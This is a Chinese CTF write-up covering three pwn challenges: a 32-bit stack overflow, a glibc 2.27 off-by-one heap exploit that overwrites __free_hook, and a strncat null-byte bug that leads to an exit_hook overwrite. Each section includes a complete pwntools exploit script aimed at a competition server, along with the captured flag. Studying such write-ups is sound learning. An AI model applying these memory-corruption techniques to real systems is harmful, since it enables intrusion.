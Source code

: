 ```yaml
---
layout: article
pageview: true
key: 2022-01-09-changanzhanyi
title: 长安战疫Pwn题WP
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


# 长安战疫Pwn题WP

<!--more-->

## pwn1

一道裸的32位栈溢出，自带后门函数，还附送了栈地址，需要注意的是`main`函数结束时的汇编指令为`leave;mov esp, [ecx-4];ret`而非正常的`leave;ret`，需要根据`mov ecx, [ebp-4]`调整栈帧。

```python
from pwn import *
context(arch='i386',log_level='debug')
# p=process('./pwn1')
# gdb.attach(p,'b read')
p=remote('113.201.14.253',16088)

leave_ret=0x0804853e
system=0x080483ed

p.recvuntil('Gift:')
gift=int(p.recvn(10),16)
log.info(hex(gift))

pay=p32(0x08048540)*12+p32(gift+4)*4

p.send(pay)
p.interactive()

#flag{474b7f9219effe69530da4ad63c1752a}
```

## pwn2

2.27版本的`off by one`，show功能中还没有限制index下限，可以直接泄露libc地址，构造`overlap`修改fd打`__free_hook`即可。

```python
from pwn import *
context(arch='amd64',log_level='debug')

local=0

p=process('./pwn2')

if local!=1:
    p=remote('113.201.14.253',16066)

elf=ELF('./pwn2')
libc=ELF('./libc-2.27.so')

def choose(idx):
    p.sendlineafter('Choice: ',str(idx))

def add(size,con):
    choose(1)
    p.sendlineafter('size: ',str(size))
    p.sendlineafter('content: ',con)

def edit(idx,con):
    choose(2)
    p.sendlineafter('idx: ',str(idx))
    p.sendafter('content: ',con)

def free(idx):
    choose(3)
    p.sendlineafter('idx: ',str(idx))

def show(idx):
    choose(4)
    p.sendlineafter('idx: ',str(idx))

show(-33)
stdout=u64(p.recvn(6)+b'\0'*2)
log.success(hex(stdout))
# gdb.attach(p)
libc_base=stdout-libc.sym['_IO_2_1_stdout_']
log.success(hex(libc_base))

free_hook=libc_base+libc.sym['__free_hook']
log.success(hex(free_hook))

add(0x68,'a'*0x68)
add(0x68,'b'*0x68)
add(0x68,'c'*0x68)
add(0x68,'d'*0x68)
add(0x20,'/bin/sh\x00'*0x4)

free(0)

add(0x68,'a'*0x68+'\xf0')
# gdb.attach(p)
free(3)

free(1)

free(2)

add(0xe8,b'b'*0x68+p64(0x71)+p64(free_hook))

add(0x68,p64(libc_base+libc.sym['system']))
add(0x68,p64(libc_base+libc.sym['system']))
free(4)

# gdb.attach(p)
p.interactive()
#flag{33cb931de8350b94d949efa8220d5433}
```

## pwn3

关键函数`strncat`会在追加时补上一个`\x00`，这样我们在`creat`时输入长度为a的字符串，`levelup`时输入长度为b的字符串，使`a+b=0x24`，就可以覆盖原本记录`level`的位置为`\x00`，使最终计算后的`level`为b，我们第二次`levelup`时再输入长度为c的字符串,就会覆盖`level`为我们的字符串，计算`level`时就会提取`DWORD`类型的变量出来，是`level`值巨大，就可以秒杀boss赢得游戏，进入后门代码。

后门代码为一个任意地址写，我们修改`exit_hook`为`one_gadget`即可。

```python
from pwn import *
context(arch='amd64')
# context.log_level='debug'
p=process('./Gpwn3')
elf=ELF('./Gpwn3')
libc=ELF('./libc-2.23.so')
p=remote('113.201.14.253',16033)


def creat(con):
    p.sendlineafter('choice:','1')
    p.sendlineafter('level :',con)
    sleep(0.1)

def lvlup(con):
    p.sendlineafter('choice:','2')
    p.sendafter('level :',con)
    sleep(0.1)


creat('a'*0x10)
lvlup('\xff'*0x14)
lvlup('\xff'*0x10)

p.sendlineafter('choice:','3')
p.recvuntil('Here\'s your reward: ')

puts=int(p.recvn(14),16)
log.success(hex(puts))
libc_base=puts-libc.sym['puts']
log.success(hex(libc_base))
exit_hook = libc_base+0x5f0040+3848
log.success(hex(exit_hook))

p.send(p64(exit_hook))
ogg=[283174,283258,840051,840264,983972,983984,987719,1009648]
p.send(p64(ogg[6]+libc_base))
# gdb.attach(p)

p.interactive()

#flag{3901afdc7f79dedfdb062a241eb3a575}
```